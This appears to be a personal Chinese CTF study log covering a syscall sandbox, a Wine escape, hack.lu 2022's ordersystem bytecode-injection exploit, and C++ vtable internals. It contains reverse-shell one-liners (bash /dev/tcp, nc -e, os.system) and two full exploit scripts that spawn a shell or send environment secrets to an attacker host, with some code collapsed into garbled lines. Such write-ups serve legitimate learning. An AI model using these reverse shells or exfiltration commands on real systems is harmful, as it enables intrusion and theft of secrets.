打不开 通过分析第一问泄露出的二进制程序，发现和 open 相关的几个 syscall 都被禁止了，独独留下了一个 open。但是这个 open 也是有限制的，只能打开以 “/proc” 开头、不包含 “.” 和 “self” 的路径。由于程序会打印 log 到 “/tmp/log”，所以我们可以通过读 log 得到自己的 PID。
题目的预期考点是 open_tree 这个 syscall，这个 syscall 极少被用到。它能做到以 flag O_PATH 打开一个路径（但是以 O_PATH 打开的文件/目录不能被 read/write）。所以可以先通过 open_tree() 打开 /flag2，之后通过 open() 正常打开 /proc/<pid>/fd/<fd>，这样就能读到 flag2。
O_PATH应用场景可能是打开一个只有执行权限而没有读写权限的文件, 然后使用execl等函数执行/proc/<pid>/fd/<fd>这条路径.
exp : 这怎么是个go文件??说实话这题还没有细看.
光与影 用到了OpenGL的一些原理, 讲了一堆三角形还有什么图形显示算法, 原理挺复杂, 感觉没必要细究. 但是从别人的解法中还是非预期偏多, 虽然预期解也不复杂. 有从js文件直接提取出显示flag的小球的坐标来当做flag的, 还有修改文件中什么函数的.
杯窗鹅影 WP
wine不仅当删除z磁盘映射的时候可以照常read出linux文件系统, 而且也没有对linux的syscall进行拦截. windows程序一般不会直接syscall, 而是交由一个系统库去选取合适的系统调用号.
所以第一问直接读取, 第二问直接将syscall. 当然两问都syscall也是可以的.
hack.lu 2022 ordersystem start 一眼看到python中socket.socket() 先查一下以前没注意的东西.
setsockopt使用场景: link
reuseaddr/reuseport: 查询过程源码 reuseport版本演进
bind到 0.0.0.0, 127.0.0.1 localhost 有何区别
在docker环境上遇到一点小问题, 重新build了一下. woc为什么链接没反应?? 好吧重启解决问题了. service docker restart
反弹shell
目标要执行的命令: bash -i >& /dev/tcp/192.168.1.102/7777 0>&1: 将目标主机的bash shell以-i交互式的方式，标准输出+错误输出重定向到192.168.1.102:7777，而在192.168.1.102:7777的标准输入命令会重定向到192.168.1.102:7777的标准输出中）
简言而知，就是将目标主机的标准输入、标准输出、错误输出全都重定向到攻击端上
上面这种是通过bash命令来反弹shell, 还可以通过python nc perl php命令 来reverse.nc 192.168.100.113 4444 –e /bin/bash
python -c ‘import socket,subprocess,os;................’
而主机要执行nc –lvp 4444命令来监听特定端口号.
python的bytecode真没了解过, 要暴毙了. 这能上哪儿搜. 跟cpython有挺大关系. 又查到了python vm. 又是python的fundamental, 我要疯了怎么又来这么多的东西. 一看就是一星期的量ahhhhhhhhhhhhhhhhhhhhh
Bytecode relavant: 到处查东西, 写的挺乱的. 还是python innards部分能看一点.
python built-in function : the last one is __import__, This function is invoked by import statements. Direct use of __import__() is also discouraged in favor of importlib.import_module()
e.g. __import__('os').system(b"ncat *.*.*.*" "****" "-e /bin/sh")
ops:
LOAD_FAST(var_num ): Pushes a reference to the local co_varnames[var_num] onto the stack. STORE_FAST(var_num ): Stores TOS into the local co_varnames[var_num].RETURN_VALUE Returns with TOS to the caller of the function.可通过dis.opmap查询inst编码. 想了一小时怎么弄…… 第二个字节是操作数, 就是dis结果的第二个数字 . BUILD_TUPLE(count ): Creates a tuple consuming count pushes the resulting tuple.CALL_FUNCTION(argc ): pops all arguments and the callable object , makes call, and pushes the return value .
我真没看出来哪里把参数全部pop出来了……可能是函数内部操作的, switch里call_function后有对stack_pointer的重新赋值.
特别的是比如print函数是没有返回值的, 但此时仍会有值为None的PyObject*被压入栈中. 在本题中令其参数为0个, 可作为None的一种压入方式.
LOAD_METHOD(namei ): Loads a method named co_names[namei] from the TOS object . TOS is popped .
if TOS has a method with the correct name, the bytecode pushes the unbound method and TOS. TOS will be used as the first argument (self) by CALL_METHOD
Otherwise, NULL and the object return by the attribute lookup are pushed.
CALL_METHOD(argc) 这个参数显而易见了.
Positional arguments are on top + two items described in LOAD_METHODself + an unbound method object or NULL + an arbitrary callable)
直接在3.11消失了. 和LOAD_METHOD进行搭配的是PRECALL. 真是每个版本都不一样…. 到时候再看吧.
IMPORT_NAME(namei ): Imports the module co_names[namei]. TOS and TOS1 are popped and provide the fromlist and level arguments of __import__(). The module object is pushed onto the stack. 实际上TOS1 不需要pop, 只要引用下然后直接修改成返回值即可.
IMPORT_NAME之后通常会STORE_FAST来暂存, 需要调用os.system这样的时候就LOAD_FAST来为LOAD_METHOD获取os module.还发现了IMPORT_STAR IMPORT_FROM, 前者是从TOS上import所有symbols , 后者是从TOS上import特定, 和上面这个只import module的明显不同.
下面是示例, 在每个CALL_FUNCTION之前都load了函数和参数, 最终操作数为参数的个数(15行的”1”).
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 In [1 ]: def test ():print ("test string" )2 ]: def test_test ():print ("test_test string" )3 ]: import dis4 ]: dis.dis(test_test)2 0 LOAD_GLOBAL 0 (test)2 CALL_FUNCTION 0 4 POP_TOP3 6 LOAD_GLOBAL 1 (print )8 LOAD_CONST 1 ('test_test string' )10 CALL_FUNCTION 1 12 POP_TOP 14 LOAD_CONST 0 (None ) 16 RETURN_VALUE
看了一圈我都不知道什么叫Calls the function in position 7 on the stack with the top three items on the stack as arguments.cpython源码 . main分支上的不在ceval.c中, 因为case语句太长就直接分成一个单独的文件generated_cases.c.h, 其余版本号分支仍在ceval. 已下载cpython 3.11源码, 可以看到一些定义之类的东西.
exception below: python doc
exc_info(): 没看明白这是个什么东西, 只知道sys.exc_info()有后向兼容性, 现在更多的是使用traceback(?不确定是哪个traceback)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 3 )));4 );stack [4 ] = {NULL , exc, val, tb};stack + 1 ,3 | PY_VECTORCALL_ARGUMENTS_OFFSET, NULL );if (res == NULL )goto error;
Python backgrounds & Innards 一些太通用的东西挪到这里来了.
关于python编译系统内部原理的一些链接, 暂时可以不用关注: (不看啥也不知道, 又滚回来看了…
真的好乱, 看到啥记下啥了.
Misc:
The function definition’s body is compiled into a code object.
dis module: bytecode instructions
Changed in version 3.6: Use 2 bytes for each instruction. Previously the number of bytes varied by instruction.Changed in version 3.10: The argument of jump, exception handling and loop instructions is now the instruction offset rather than the byte offset.
get information about live objects: Inspect
Types and members :function.__code__.co_code to get code bytestring or inspect.getmembers([func/module/class]) to see all members.
python built-in function: eval & exec. difference : eval accepts only a single expression , exec can take a code block
METHOD
python的method是指在class里的, 而function就是字面意思.
bound methods : a function is an attribute of class and it is accessed via the instances(common case)unbound methods : Methods that do not have an instance of the class as the first argument. As of Python 3.0, the unbound methods have been removed from the language . They are not bounded with any specific object of the class. To make the method work it should be made into a static method .
use decorator@staticmethod or staticmethod().
PyObject :
All Python objects ultimately share a small number of fields at the beginning of the object’s representation in memory. 这些字段就是指的PyObject , 所有object type都是该类型的扩展, 而且对外只使用PyObject*这种类型 .
PyVarObject is an extension of PyObjectob_size field. This is only used for objects that have some notion of length . 比如说PyTupleObject的头部就是一个PyVarObject ob_base. co_names是PyTuple类型的, 使用names = PyTuple_New(n);进行初始化.
Data model
Module namespace implemented by a dictionary object (this is the dictionary referenced by the __globals__ attribute of functions defined in the module). Attribute references are translated to lookups in this dictionary, e.g., m.x is equivalent to m.__dict__["x"]. A module object does not contain the code object used to initialize the module (since it isn’t needed once the initialization is done).Function Objects
除了python innards, 这一篇 三年前写的比较新一点. 还有一些图解, 真不错.
Intro & AST
AST直接跳过了, 看看object type之类的定义. 就比如stack其实是PyObject *类型的一样.
The PyAST_CompileObject()
But before the compiler starts, a global compiler state is created
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 struct compiler {struct symtable *c_st ;int c_optimize; int c_interactive; int c_nestlevel;int c_do_not_emit_bytecode; struct compiler_unit *u ;
then PyAST_CompileObject does the following things:
some flag initializations …
Build a symbol table from the module object.
Run the compiler with the compiler state and return the code object .Free any allocated memory by the compiler.
symbol table
In PyAST_CompileObject()symtable and a call to PySymtable_BuildObject()
…
Core Compilation Process
Now that the PyAST_CompileObject()
in cpython 3.11 branch, the PyCodeObject is in Include\cpython\code.h and is a macro.
放弃了, 暂时没帮助的编译细节.
Assembly 如名, 没啥特别的.
编译大致过程, 知道这个就行了
This stage forms the execution component of CPython. Each of the bytecode operations is taken and executed using a “Stack Frame” based system.
Before a frame can be executed, it needs to be referenced from a thread. CPython can have many threads running at any one time within a single interpreter. An Interpreter state includes a list of those threads as a linked list . The thread structure is called PyThreadStateceval.c.
Frame Execution
Frames are executed in the main execution loop inside _PyEval_EvalFrameDefault()
我想看到的东西.
PyObject **stack_pointer指向栈顶的上一个位置. switch in ceval.c:
any operation that fails must goto error, all operation that succeed call DISPATCH()
DISPATCH(): if tracing is enabled, do the trace, if tracing is not enabled, a goto is called to dispatch_opcode, which jumps back to the top of the loop for the next instruction.PREDICT() macro will do the same as it says. When the prediction succeeds, it means execution flow haven’t to go through the loop again.
Some of the operations, such as CALL_FUNCTION, CALL_METHOD, have an operation argument referencing another compiled function. In these cases, another frame is pushed to the frame stack in the thread , and the evaluation loop is run for that function until the function completes. Each time a new frame is created and pushed onto the stack, the value of the frame’s f_back is set to the current frame before the new one is created .
ordersystem wp1 wp2 : src
一个server, 但是连上去后不能向socket返回有用的信息. 而且flag在env里, 可能要反弹shell .
用字典类型ENTRIES来保存输入的信息. 其中key最多12字节, 可以是任意bytes, 但是data只能是printable hex number, 长度为0-255.
可保存data到storage文件夹中的key.decode或者key.hex(作为文件名称), 还可以 directory traversal到plugins文件夹中.
执行plugins时读取plugin文件夹下 相应bytecode文件, 将所有key 加上plugin_log(msg,filename='./log',raw=False)放到codeType的consts 中, 将bytecode后面使用分号隔开的bytes放到names中 .
docker安装的python版本是3.10.6
明确几点:
能控制的 : key + 有限制的value + 把value存到key中,可目录穿越,有限制的插件代码 + 执行plugin时可控制consts和names +WITH_EXCEPT_START可以实现调用函数,于是无限制log可用. 想到的 : plugin没东西, 最多有限制的代码. 能不能用限制的代码写入一份没限制的反弹shell代码?想控制的 : execute_plugin时能够调用plugin_log并控制msg和filename参数. 结论 : 把代码放在key中, 多次调用limit_code附加到./plugin/expl中, 最终执行expl
problem
because of the hexdump executed by server, we can only send printable hex numbers, which dramatically lessens our options.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 In [1 ]: import dishex (op_code): op_namefor op_name, op_code in dis.opmap.items()if chr (op_code) in "0123456789abcdef" 1 ]:'0x31' : 'WITH_EXCEPT_START' ,'0x32' : 'GET_AITER' ,'0x33' : 'GET_ANEXT' ,'0x34' : 'BEFORE_ASYNC_WITH' ,'0x36' : 'END_ASYNC_FOR' ,'0x37' : 'INPLACE_ADD' ,'0x38' : 'INPLACE_SUBTRACT' ,'0x39' : 'INPLACE_MULTIPLY' ,'0x61' : 'STORE_GLOBAL' ,'0x62' : 'DELETE_GLOBAL' ,'0x63' : 'ROT_N' ,'0x64' : 'LOAD_CONST' ,'0x65' : 'LOAD_NAME' ,'0x66' : 'BUILD_TUPLE' }
but the WITH_EXCEPT_START is something special.
WITH_EXCEPT_START: Calls the function in position 7 on the stack with the top three items on the stack as arguments. Used to implement the call context_manager.__exit__(*exc_info()) when an exception has occurred in a with statement.
with statement (有更多东西) | context manager 通过with语句的流程看出来貌似在with_statement evaluate之后的值自带manager, 比如open()返回的file object中就有__enter__函数, 而且enter也不需要做什么就直接返回file object. 而__exit__就是直接调用close()
下面这个流程也是不断的修改之后才成功的……
Calculate proof of work to get the real target port, 使用docker完全见不到.
Craft python bytecode which will spawn a reverse shell to the attacker’s machine as exp_bc
Divide exp_bc into chunks of 12 bytes
Upload the filling consts to 0x30 items.
Upload num_chunk plugins and dump()
Store exp_bc as keys in the storage
Run one plugin for each chunk which appends the key to the logfile aka exploit plugin
Upload nc command string.
Run the exploit plugin
proof of work ?
reverse shell 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 55 "len" , "list" , "print" , "os" , "system" , "decode" ]"BUILD_LIST" , 0 ),"GET_LEN" , 0x09 ),"LOAD_NAME" , co_names.index("print" )),"CALL_FUNCTION" , 0 ),"IMPORT_NAME" , co_names.index("os" )),"LOAD_METHOD" , co_names.index("system" )),"LOAD_CONST" , nc_index), "LOAD_METHOD" , co_names.index("decode" )),"CALL_METHOD" , 0 ),"LOAD_CONST" , nc_index + 1 ),"LOAD_METHOD" , co_names.index("decode" )),"CALL_METHOD" , 0 ),"LOAD_CONST" , nc_index + 2 ),"LOAD_METHOD" , co_names.index("decode" )),"CALL_METHOD" , 0 ),"BUILD_STRING" , 3 ),"CALL_METHOD" , 1 )
Then, we can “assemble” the code:
exp_bc = b'' for op, arg in exploit_asm:bytes ([dis.opmap[op], arg])for name in co_names:b';' + name.encode()b';'
可以看出来指令非常的简单, 就是一个字节指令加上一个字节操作数.
为什么是分号? 是题目源码中识别到有分号时自动把names加入到CodeObject.names
还要注意到nc_index, 这是在upload所有的key之后才确定下来的偏移, 因为limit_code的操作数必须是在printable hex的范围之内, 所以干脆把nc命令的这一个字符串和limit_code的参数放到consts[0x30:0x40]的部分.
这里有个坑(自己作的)就是在第二个for之前也在bc后面加上了分号, 导致co_names的第一个就是空字节串, 所有的idx都不对了, 看到了什么No module named 'print'这种神奇报错.
比较疑惑的是print只是个字符串, 为什么会被CALL_FUNCTION当做是callable? 原来load_name不仅是从names中取出了名称字符串, 而且在local和global两个scope中查找到了对应的item, 这里的print对应的是一个callable item, 自然是可以被CALL_FUNCTION调用的. !!
填充consts前48个位置 12 len (exp_bc) // chunk_size + 1 for i in range (48 - num_chunks):b'{{{{{{{{{{%d' % (i+10 ))
48=0x30, 为了把数据放在\x30中, 先把前面的部分填满, 最后剩下6个位置放入
Upload limit_code 48 +6 +1 0x30 0x30 +6 0x30 for i in range (num_chunks):b'../plugins/%d' % i, bc)
这些idx都是事后填上的. 其中raw是随便一个不为空的变量, func_idx是最后一个consts.
还有一个问题是func_idx已经是55, 后面的command的三个位置已经放不下, 所以执行完六个plugins后才能上传命令.
Upload exploit bytecode in chunks exp_bc = exp_bc.ljust(num_chunks*chunk_size, b';' )for i in range (0 , len (exp_bc), chunk_size):1 ])
把exp分成chunk上传到keys中后, 再上传多个limit_code作为plugin, 用于将每个key中的exp_bc附加到log(其实是./plugins)后面, 拼接成exp.
要注意的是keys加入consts的时候是通过遍历dict来实现的, 所以consts顺序是字典序从大到小.for遍历输出居然是按照加入的顺序 , 测试的时候是直接赋初值然后输出, 结果是字典序. 最后是plugin_log函数object. 这导致每个limit_code中msg的偏移都不一样, 但filename和raw是一样的.
也不对啊, for k in entries这样取出来的是字典中的tuple, 这一个tuple怎么load_const再decode?
python不过关, 做题两行泪: list(dict)只会返回key , 而for k in dict同理……….
iter(d) : Return an iterator over the keys of the dictionary. This is a shortcut for iter(d.keys()).
>>>d'one' : 1 , 'two' : 2 , 'three' : 3 , 'four' : 4 }list (d)'one' , 'two' , 'three' , 'four' ]list (d.values())1 , 2 , 3 , 4 ]
Upload additional consts & construct ./expl & b'plugins/expl' )for i in range (6 ):f'../plugins/{i} ' .encode())'127.0.0.1' 5555 f"nc {ip} {rev_port} -e /bin/sh" .ljust(chunk_size * 3 , " " )2 * chunk_size])2 * chunk_size :])
为什么两个upload中间夹个plugin在上面解释了.
REVERSE SHELL rev_shl = listen(rev_port)f'expl' .ljust(12 , ' ' ).encode())b'echo $flag' )False )
其实行不通, 不知道容器里面的程序要怎么连接到主机里已在监听的接口. 实际上还要一个公网IP才能反弹, 还没接触过.
本地是在container里面验证过了exp.
complete exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 from pwn import *import dis'info' 'amd64' def store (key: bytes , data: bytes ):assert len (key) <= 12 , 'store key len' assert len (list (filter (lambda x: x in '0123456789abcdef' , data.decode()))len (data) and len (data) < 0x80 , "data has to be in hex format" '127.0.0.1' , 4444 )b'S' )chr (len (data)))f'{key} \n' .encode(), timeout=1 )def dump ():'127.0.0.1' , 4444 )b'D' )def plugin (name ):assert len (name) == 12 '127.0.0.1' , 4444 )b'P' )0.3 )def load_const (idx ):return bytes ([dis.opmap['LOAD_CONST' ], idx])def load_name (idx ):return bytes ([dis.opmap['LOAD_NAME' ], idx])def upload_key (key ):if isinstance (key, str ):b'deadbeef' )def get_plugin_code (msg_idx, func_idx, fn_idx, raw_idx ):f'four args: {msg_idx} {func_idx} {fn_idx} {raw_idx} ' )return (4 +bytes ([dis.opmap['WITH_EXCEPT_START' ], 0x30 ])55 "len" , "list" , "print" , "os" , "system" , "decode" ] "BUILD_LIST" , 0 ),"GET_LEN" , 0x09 ),"LOAD_NAME" , co_names.index("print" )),"CALL_FUNCTION" , 0 ),"IMPORT_NAME" , co_names.index("os" )),"LOAD_METHOD" , co_names.index("system" )),"LOAD_CONST" , nc_index), "LOAD_METHOD" , co_names.index("decode" )),"CALL_METHOD" , 0 ),"LOAD_CONST" , nc_index + 1 ),"LOAD_METHOD" , co_names.index("decode" )),"CALL_METHOD" , 0 ),"LOAD_CONST" , nc_index + 2 ),"LOAD_METHOD" , co_names.index("decode" )),"CALL_METHOD" , 0 ),"BUILD_STRING" , 3 ),"CALL_METHOD" , 1 )b'' for op, arg in exploit_asm:bytes ([dis.opmap[op], arg])for name in co_names:b';' + name.encode()b';' 12 len (exp_bc) // chunk_size + 1 for i in range (48 - num_chunks):b'{{{{{{{{{{%d' % (i+10 ))48 +6 +1 0x30 0x30 +6 0x30 for i in range (num_chunks):b'../plugins/%d' % i, bc)b';' )for i in range (0 , len (exp_bc), chunk_size):1 ])print ('exp_block:' )print (exp_block)b'plugins/expl' )for i in range (6 ):f'../plugins/{i} ' .encode())'127.0.0.1' 5555 f"nc {ip} {rev_port} -e /bin/sh" .ljust(chunk_size * 3 , " " )2 * chunk_size])2 * chunk_size :])f'expl' .ljust(12 , ' ' ).encode())
其实还是复杂了 writeup3
这篇wp使用的方法是用eval()来解析反弹shell命令, 而从consts加载的命令字符串可直接使用BINARY_ADD指令来拼接(当然BUILD_STRING感觉更好). 在exp_bc后面加上了return语句, (应该)可以避免unknown opcode的报错.
并没有把多个写入操作分成多个文件, 而是
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 from ptrlib import *import timeimport osdef make_conn ():return Socket("localhost" , 4444 )def store (entry, data ):assert len (entry) <= 12 assert len (data) < 0x80 'S' )b'\x00' * (12 - len (entry)))bytes ([len (data) * 2 ]))hex ())print (sock.recvline())def dump ():'D' )print (sock.recv())def plugin (name ):'P' )b'\x00' * (12 - len (name)))b"__import__('os').system('bash -c \"env > \\x2fdev\\x2ftcp\\x2f<HOST>\\x2f<PORT>\"')" 12 , b'\n' )bytes ([116 ,0x00 , for i in range (len (pychunks)):bytes ([100 ,i]) if i > 0 :bytes ([0x17 ,0x00 ]) bytes ([0x09 ,0xc2 , 0x83 ,0x01 , 0x01 ,0x00 , 100 ,0x00 , 83 ,0x00 , b";eval;" 12 , b'\x00' )0x33 + len (blocks)b"" for i in range (len (blocks)):bytes ([100 ,pos_func, 100 ,0x30 , 100 ,0x30 , 100 ,0x30 , 100 ,0x30 , 100 ,0x32 , 100 ,0x33 +i, 49 , 0x30 , bytes ([53 ,53 ])for piece in pychunks:b"whatever" )for i in range (0x30 - len (pychunks)):bytes ([0x41 + i] * 12 ), b"whatever" )b"../plugins/A" , bytes .fromhex(code.decode()))b"\x00" , b"whatever" ) b".//plugins/B" , b"whatever" ) for block in blocks:b"whatever" ) 0.1 )b"0123456789/A" )0.1 )b"0123456789/B" )
RIOT RIOT src off-by-one
placemat
看到一个meson.build文件, 才知道这是一个和cmake同类型的build scripts generation. Wiki在此
居然是32位程序, 除了PIE其他都开了.
woc为什么在ubuntu上运行不了?? 2.34用allinone装上之后都没有了符号链接, 这能用???? 在ubuntu2004 22204里运行都给我说no such file or directory. 差不多得了.
搞不定这个环境. 理解不能, 这c++的库都是用的啥? glibc不能直接用吧. 果然还是放弃这种比赛题比较实际, 大半天啥也没试出来. 又被crazyman叫来看看, 我…还是试试从源码编译吧…
学了两下meson: meson setup [build directory] cd [build directory] && meson compile
每个build directory都有各自的配置, 分成一个个文件夹便于测试.
meson compile == ninja, 因为meson的默认backend是ninja.
发现缺失bits/c++config.h, 然后准备安装g++-multilib, 然后又发现kali里的libc6-dev版本过低导致依赖的libglib2.0-dev也较低, 结果是libglib2.0-dev无法安装更新版本. 执行pc apt --only-upgrade install libc6-dev后解决. 最终执行apt install g++-multilib.
怎么调试C++里面的类和一些变量布局我还得熟悉下.
看了看C++17的optional. post 就像是刚刚看的rust里的Option<T>.
额还得看看c++编译器是怎么实现class的. 找个文章 .
可能有的问题:
Human::requestName中scanf("%s", this->name);没有限制长度. 鬼知道溢出到了什么地方. 好了现在知道了.
还有个strcpy有个非常没用的栈溢出.
flag的获取必须是赢过bot.
然后队里别人先做出来了(不出所料), 是伪造虚表然后装成bot, 自己赢过自己获取flag. 我先调试看看c++的class怎么布局 的.
首先研究构造函数, 发现Human human声明语句即构造函数调用语句, 参数为栈上指针, 大小为ebp-0x20的位置, 这个就是this指针. 然后继续调用父类构造清空name成员, name成员由this来定位. 不过name不是this指向的空间, 前四字节是用来标识子类的一串数字(也许有什么特殊含义). 好吧原来是虚表地址, 对象的虚表指针用来指向自己所属类的虚表，虚表中的指针会指向其继承的最近的 一个类的虚函数 . 地址到IDA里看看更多信息.
Player这个基类的两个函数加析构都是虚函数, 但是析构没有定义, 所以在虚表里面是NULL .
超出作用域的class直接调用析构函数, 如局部class在函数末尾的析构.
注意到文件里除了vtable for Bot之类的还有
果然还是ABI标准更全面一些. 省的自己在这儿乱研究. 标准真的太长了. stackoverflow
继续研究:
在startSingleplayer()函数栈帧里存储有两个玩家的object, 以虚指针开头总共4(vptr)+20(name)=24=0x18字节, 初始name被填满空字符, 输入玩家名称时可以填满20字节达到leak之后的数据的目的. scanf会加空字符, 必须修改后才能leak.
human是栈上靠近栈底的变量, 在[ebp-0x20]的位置, 0xc(12)处还有个canary, 栈底八字节没啥用处
takeTurn中又是%s, 输出长度没有限制.
重大发现, 这个程序是32位的, 所以要用32位库. 真是好一个重大发现, 难怪patchelf和ubuntu2204(默认没有32位运行环境)都不行. 好的下了debian32位2.35libc成功了.
绝了, 自己编译的做不出来, 但是源文件是可以的, 因为两个class离canary有更大的距离, 因为Game class放到了两个Player class的后面, 而Game前几个成员变量是player opponent之类的, 可以解决scanf默认添加的空字符问题. emmmm这样究竟是怎么出题的, 是巧合还是能控制变量在栈上的位置? 但是源文件调试是真的不爽, 什么符号都没有. 难不成要ida修复符号然后远程调试? 想想都麻烦. 而且有些输入不是我能打出来的. 还是pwntools吧.
我是不明白为什么random::bit会一直只选第一个玩家, 完全没有随机性可言. 但是自己编译的程序就可以. (????????) 只是我运气好罢了. 居然是下面这个问题的原因. 为什么都定义了%20s了但是在printPlayerNames还是会打印出超过20个字符???????什么魔法啊这是.printf("%20s", buf);限制的只是对齐宽度, 如果字符串更长就会忽略这个对齐. %20s用在scanf里才是限制输入的string, 然而在printf里如果要限制输出长度则要用%.20s, 或者是在参数中提供长度%.*s(还可以是某个位置的参数, 具体见printf手册)(左对齐是%-20s)
在congratulate中看到typeidc++ abi , 然而内容太多我抓不住重点. 又找了一个series blog . 真的太多了, 但我真的想看懂ABI.清楚 还是有例子的好些, 一堆文字真的很难看懂.
c++ abi (vtables & RTTI) vtable:
_ZTV is a prefix for vtable, _ZTS is a prefix for type-string (name) and _ZTI is for type-info.
重要的概念
primary base class : For a dynamic class, the unique base class (if any) with which it shares the virtual pointer at offset 0.proper base class : 继承树中一个类的所有父类secondary virtual table : The instance of a virtual table for a base class that is embedded in the virtual table of a class derived from it.The primary virtual table can be viewed as two virtual tables accessed from a shared virtual table pointer. virtual table group : The primary virtual table for a class along with all of the associated secondary virtual tables for its proper base classes.
vtable components
Virtual Base (vbase) offsets are used to access the virtual bases of an object.The offset to top holds the displacement to the top of the object from the location within the object of the virtual table pointer that addresses this virtual table
The typeinfo pointer points to the typeinfo object used for RTTI
The virtual table address point points here
Virtual function pointers . Each pointer holds either the address of a virtual function of the class, or the address of a secondary entry point that performs certain adjustments before transferring control to a virtual function.
vtable construction 详细讲了proper base class在各种情况下应该怎样构建vtable.
比如No inherited virtual functionsNo virtual base classesDeclares virtual functions时, vtable就是简单的offset-to-top & RTTI fields & virtual function pointers
………………………………….
The elements of the VTT array for a class D:has indirect or direct virtual base classes .
Primary virtual pointer
: address of the primary virtual table for the complete object D.
Secondary VTTs
: for each direct non-virtual proper base class B of D that requires a VTT, in declaration order, a sub-VTT for B-in-D, structured like the main VTT for B, with a primary virtual pointer, secondary VTTs, and secondary virtual pointers, but without virtual VTTs.
This construction is applied recursively.
Secondary virtual pointers
: for each base class X which (a) has virtual bases or is reachable along a virtual path from D, and (b) is not a non-virtual primary base, the address of the virtual table for X-in-D or an appropriate construction virtual table.
X is reachable along a virtual path from D if there exists a path X, B1, B2, …, BN, D in the inheritance graph such that at least one of X, B1, B2, …, or BN is a virtual base class.
The order in which the virtual pointers appear in the VTT is inheritance graph preorder.
There are virtual pointers for direct and indirect base classes. Although primary non-virtual bases do not get secondary virtual pointers, they do not otherwise affect the ordering.
Primary virtual bases require a secondary virtual pointer in the VTT because the derived class with which they will share a virtual pointer is determined by the most derived class in the hierarchy.
Secondary virtual pointers may be required for base classes that do not require secondary VTTs. A virtual base with no virtual bases of its own does not require a VTT, but does require a virtual pointer entry in the VTT.
Virtual VTTs
: For each proper virtual base classes in inheritance graph preorder, construct a sub-VTT as in (2) above.
The virtual VTT addresses come last because they are only passed to the virtual base class constructors for the complete object.
单继承
子类虚表如下, 注意子类内存中虚表指针指向下表第三项. 即跳过前两项.
Address
Value
Meaning
0x400b40
0x0
top_offset (more on this later)
0x400b48
0x400b90
Pointer to typeinfo for Derived (also part of the above memory dump)
0x400b50
0x400a80
Pointer to Derived::Foo()3. Derived’s _vptr points here.
0x400b58
0x400a90
Pointer to Parent::FooNotOverridden() (same as Parent’s)
多继承
多继承时最下层的子类的内存中有多个指针, 如下表所示. 为什么内存中还有两个vptr? 因为child可能被转换为Father*或者Mother*类型的指针当做参数传递, 此时接收参数的函数不需要知道child的存在也能够访问下面内存布局中的Father部分. data显然在要其中, 而Father的虚表指针自然也会在这里, 指向child vtable以提供虚函数的信息.
_vptr$Mother
mother_data (+ padding)(这是什么padding??)
_vptr$Father = non-virtual thunk to Child::FatherFoo(void)
father_data
child_data1
值得注意的是现在child vtable里实际上装下了两个table . 如下vtable的第二部分.
; `vtable for'Child
但是 , 当子类继承父类时重载了 父类函数, 为了要使 利用多态将child* this的指针转换为father* this然后ptr->FatherFoo()的函数能够执行child ::FatherFoo(), 编译器会识别到重载的存在, 并生成上表的child class结构, 并且生成一个thunk代码片段代替Father::Foo()来调整this指针使得其变成child的class ptr. 其中_vptr$Father指向的secondary virtual table中会是这个thunk的地址.
.text:0000555555555227 ; __int64 __fastcall `non-virtual thunk to'Child::FatherFoo(Child *__hidden this)
vtable中top_offset即为-8的那一行, 看起来只是提供一个信息提示, 指child内存中Father部分到内存top的距离.sub rdi, 8并未引用该处数据.
三重多继承, 虚继承Grandparent class.
新东西: construction vtable for Parent1-in-Child VTT for Child virtual-base offset
virtual-base offset是针对Child::Child()中Patent1初始化时要访问Grandpatent数据时, this指针(此时指向Child内存中Parent1部分, 也就是Child开头)到child内存中Grandpatent部分的偏移量. IDA中construction vtable for Patent1-in-Child和vtable for Parent基本重叠, 除了前者开头的virtual-base offset在后者上方.
; `construction vtable for' Parent1-in-Child
Address
Value
Symbol
Meaning
0x4009a0
0x400950
vtable for Child + 24Parent1’s entries in Child’s vtable
0x4009a8
0x4009f8
construction vtable for Parent1-in-Child + 24Parent1’s methods in Parent1-in-Child
0x4009b0
0x400a18
construction vtable for Parent1-in-Child + 56Grandparent's methods for Parent1-in-Child
0x4009b8
0x400a98
construction vtable for Parent2-in-Child + 24Parent2's methods in Parent2-in-Child
0x4009c0
0x400ab8
construction vtable for Parent2-in-Child + 56`Grandparent’s methods for Parent2-in-Child
0x4009c8
0x400998
vtable for Child + 96`Grandparent’s entries in Child’s vtable
0x4009d0
0x400978
vtable for Child + 64`Parent2’s entries in Child’s vtable
为什么会有VTT? 来看看child的初始化就明白了:
首先Grandparent construction, 初始化vtable指针指向primary vtable.
然后Parent1初始化Child内存中的vtable ptr为VTT中Parent1-in-Child值(也就是vtable for Parent1),再修改GrandParent vtable指针指向其vtable中的Grandparent部分 . 关键在于Parent1如何知道其子类Child内存中Grandparent和他自身的距离? 方法就是传入了VTT地址, 两个Parent1-in-Child指针指示了对应的construction table和该table中的vbase offset.
其实这种情况下只传一个指针也是足够的, 但是当parent也有多个基类时就不得不使用VTT了, 很明显需要访问其多个基类的secondary vtable中的vbase offset来确定多个基类的vtable指针值(都在Child内存中).
然后Parent2继续初始化并且又修改了Grandparent的vtable指针.
因为基类的构造不应假设是其子类调用的构造函数, 所以最后Child把所有vtable指针值改向了Child vtable中的几个父类部分.
如果情况变成
“in-charge” and “not-in-charge” constructor and destructor: stackoverflow解释
